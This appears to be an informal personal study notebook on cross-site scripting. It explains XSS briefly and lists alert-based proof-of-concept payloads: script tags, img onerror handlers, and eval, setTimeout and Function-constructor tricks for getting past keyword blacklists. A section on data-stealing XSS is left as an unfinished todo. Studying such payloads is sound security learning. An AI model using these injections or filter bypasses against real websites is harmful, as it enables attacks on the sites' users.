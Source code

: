     # Klein
    Calvin Security Learning stuff lol
    NOTEBOOK sorta, slightly unorganized, catagorized but could be neater.

    "-" is a makeshift bulletpoint, not apart of whats typed after. eg 
    -  'lol = "'lol" 
    and not =/=
    "-  'lol"



    #Cross Site Scripting

    Cross Site Scripting (XSS) attacks are a type of injectoin, in which scripts are injected into an otherwise 
    trusted and reputable website. During XXS, attacker utilizes the webapp as a catalyst to send malicious code
    to another *end user.

    Some I like to give a crack are;



XSS in HTML/Applications
Basic Payload


- <script>alert('XSS')</script>
- <scr<script>ipt>alert('XSS')</scr<script>ipt>
- "><script>alert("XSS")</script>

  
  
  
XSS in HTML/Applications
Img tag payload

- <img src=x onerror=alert('XSS');>
- "><img src=x onerror=alert("XSS");>
- <img src=x onerror=alert(String.fromCharCode(88,83,83));>

  
  
  
Bypass word blacklist with code evaluation

  
- eval('ale'+'rt(0)');
- setTimeout('ale'+'rt(2)');
- setInterval('ale'+'rt(10)');
- news Function('ale'+'rt(1)')();
- Set.constructor`alert(14)```;
- Set.constructor('ale'+'rt(13)')();


XSS that nicks data todo lol [][][[]


 






































